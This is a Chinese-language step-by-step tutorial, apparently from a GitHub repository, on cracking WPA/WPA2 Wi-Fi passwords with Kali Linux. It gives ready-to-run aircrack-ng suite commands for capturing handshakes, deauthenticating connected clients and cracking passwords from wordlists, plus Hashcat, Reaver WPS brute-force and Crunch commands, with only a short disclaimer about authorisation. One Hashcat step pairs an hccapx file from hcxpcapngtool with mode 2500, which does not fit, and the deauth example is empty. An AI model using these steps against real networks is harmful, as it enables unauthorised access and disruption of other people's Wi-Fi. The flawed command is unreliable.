 下面是一个更详细的**Kali Linux Wi-Fi 破解教程**，包括各个步骤的详细解释。此教程用于合法的渗透测试和网络安全评估，请不要用于非法活动。

### 一、准备工作
1. **安装 Kali Linux**：
   
   - 下载最新的 [Kali Linux](https://www.kali.org/get-kali/) ISO 镜像文件，并将其安装在虚拟机或物理机上。
   - 安装时，选择完整安装，确保网络安全工具包括 `aircrack-ng` 套件。
   
2. **硬件要求**：
   
   - **无线网卡**：必须支持**监控模式**和**包注入**，推荐使用像 Alfa AWUS036NH 之类的高性能网卡。
   
3. **更新 Kali Linux**：
   
   - 确保系统和工具是最新的：
   ```bash
   sudo apt update && sudo apt upgrade -y
   ```

### 二、工具概述
- **Aircrack-ng**：这是一个用于网络监控、捕获数据包、密钥破解的 Wi-Fi 破解工具集。
- **Airmon-ng**：将无线网卡置于监控模式。
- **Airodump-ng**：用于捕获 Wi-Fi 网络的数据包。
- **Aireplay-ng**：注入网络包进行干扰或欺骗攻击，常用于解除客户端的连接（deauth）。
- **Aircrack-ng**：通过字典破解捕获到的握手包，获取 Wi-Fi 密码。

### 三、详细步骤

#### 1. 将无线网卡切换为监控模式

Kali Linux 默认网卡工作在管理模式下（不捕获流量）。使用 `airmon-ng` 启动监控模式：
```bash
sudo airmon-ng start wlan0
```
- `wlan0` 是你的无线网卡接口名称，可以通过 `ifconfig` 查看。
- 如果看到错误提示与进程冲突，可使用以下命令杀死冲突进程：
  ```bash
  sudo airmon-ng check kill
  ```

#### 2. 扫描周围的 Wi-Fi 网络

使用 `airodump-ng` 来扫描周围的 Wi-Fi 网络：
```bash
sudo airodump-ng wlan0mon
```
此命令会显示：
- BSSID：路由器的 MAC 地址。
- PWR：信号强度。
- CH：信道（Channel）。
- ENC：加密类型（如 WPA、WPA2）。
- ESSID：Wi-Fi 网络名称。

![截图_2024-09-27_13-32-23](./assets/截图_2024-09-27_13-32-23.png)

#### 3. 选择目标 Wi-Fi 网络并捕获握手包

找到目标 Wi-Fi 网络后，记下其 BSSID 和信道，然后运行以下命令开始捕获握手包：
```bash
sudo airodump-ng --bssid [目标BSSID] --channel [信道] -w [保存文件名] wlan0mon
```
- `--bssid` 后跟目标 Wi-Fi 的 BSSID。
- `--channel` 后跟信道号。
- `-w` 表示保存握手包的文件名。

例子：

```bash
sudo airodump-ng --bssid D4:62:EA:5E:9B:A0 --channel 6 -w /home/kali/Desktop/wsb/ wlan0mon
```

![截图_2024-09-27_14-04-58](./assets/截图_2024-09-27_14-04-58.png)

这个命令会捕获目标 Wi-Fi 网络上的数据包，直到捕获到握手包。



#### 4. 强制客户端重新连接（Deauthentication 攻击）

> [!CAUTION]
>
> 不要关闭捕获握手包，重新开一个窗口进行攻击

如果在捕获过程中没有用户连接到 Wi-Fi 或没有获取到握手包，可以使用 `aireplay-ng` 发送断开（deauth）请求，强制客户端重新连接，以便捕获握手包：
```bash
sudo aireplay-ng --deauth 10 -a [路由器mac地址] -c [客户端mac地址] wlan0mon
```
- `--deauth 10` 意思是发送 10 个 deauth 包，10 是可调的数字，代表包的数量。
- `-a` 路由器mac地址 。
- ` -c` 客户端mac地址。

例子：



#### 5. 检查是否成功捕获握手包

当客户端重新连接时，`airodump-ng` 窗口的右上角会提示 `WPA handshake: [目标BSSID]`，表示已成功捕获握手包。握手包会保存在你指定的 `.cap` 文件中。

![捕获握手包成功](./assets/捕获握手包成功.png)

#### 6. 使用字典文件破解 Wi-Fi 密码

握手包捕获完成后，接下来使用 `aircrack-ng` 工具来破解 Wi-Fi 密码。你需要一个包含常见密码的字典文件。网络上有很多常用的字典文件，推荐使用 `rockyou.txt`，它通常位于 `/usr/share/wordlists/` 中：
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [目标BSSID] [捕获文件名].cap
```
- `-w` 后跟字典文件的路径。
- `-b` 后跟目标 Wi-Fi 的 BSSID。
- `捕获文件名.cap` 是你之前保存的握手包文件。

破解过程可能需要一些时间，具体取决于密码的复杂性和字典文件的大小。

#### 7. 破解成功

如果目标 Wi-Fi 的密码在字典文件中，`aircrack-ng` 将输出 Wi-Fi 密码。你可以使用该密码连接到 Wi-Fi 网络。

![截图_2024-09-27_15-03-39](./assets/截图_2024-09-27_15-03-39.png)

### 四、进阶工具和技巧

1. **Hashcat**：
   Hashcat 是一个更强大的密码破解工具，它支持 GPU 加速，可以大幅加快破解速度。使用 Hashcat 破解 WPA2 密码需要将 `.cap` 文件转换为 Hashcat 支持的格式：
   
   ```bash
   hcxpcapngtool -o hashcat.hccapx [捕获文件名].cap
   ```
   然后使用 Hashcat 进行破解：
   ```bash
   hashcat -m 2500 hashcat.hccapx /path/to/wordlist.txt
   ```
   
2. **Reaver（针对 WPS 漏洞）**：
   如果目标 Wi-Fi 网络启用了 WPS 功能，你可以使用 `Reaver` 工具来尝试暴力破解 WPS PIN，从而绕过 WPA/WPA2 加密：
   ```bash
   sudo reaver -i wlan0mon -b [目标BSSID] -vv
   ```
   这个方法对于没有禁用 WPS 的路由器特别有效。

3. **字典生成器**：
   如果默认字典文件不足以破解密码，可以使用 `Crunch` 工具来生成符合特定模式的字典文件：
   ```bash
   crunch 8 10 abcdefghijklmnopqrstuvwxyz -o custom_wordlist.txt
   ```
   该命令生成一个由 8 到 10 位的小写字母组成的字典文件。

### 五、重要的注意事项

1. **合法性**：
   你必须对目标网络拥有明确的授权。未经授权的 Wi-Fi 渗透测试是非法的，可能导致严重的法律后果。

2. **加密方式**：
   使用 WPA3 加密的网络非常难以破解，目前没有有效的公开方法来破解 WPA3。

3. **复杂性**：
   破解时间取决于密码的复杂性和字典的质量。较强的密码可能需要很长时间甚至无法破解。

以上是一个较为详细的 Kali Linux 破解 Wi-Fi 的教程，主要目的是为了教育和网络安全测试。如果你对网络安全感兴趣，可以深入学习更多合法的渗透测试方法和技术。